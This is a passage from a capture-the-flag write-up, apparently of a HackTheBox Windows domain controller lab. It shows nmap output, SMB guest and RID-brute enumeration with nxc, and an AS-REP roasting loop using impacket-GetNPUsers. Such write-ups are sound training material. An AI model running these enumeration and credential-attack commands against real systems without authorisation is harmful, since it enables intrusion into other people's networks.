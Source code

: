 ```
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 16m12s, deviation: 1s, median: 16m13s
| smb2-time: 
|   date: 2025-09-19T15:55:36
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   26.11 ms 10.10.14.1
2   26.55 ms 10.10.11.236

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 187.37 seconds

```

add manager.htb to /etc/hosts

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919105419.png)

Nothing special, looks like static html page

## SMB

Enumerating smb with guest account

```
nxc smb 10.10.11.236 -u "guest" -p "" --shares
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919105918.png)

we have only access to IPC, moving on to rid-brute

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919110638.png)

Great, I got users and groups
Tried as-rep roasting but no hit

```
for user in $(cat users); do impacket-GetNPUsers -no-pass -dc-ip 10.10.11.236 manager.htb/$user; done
```
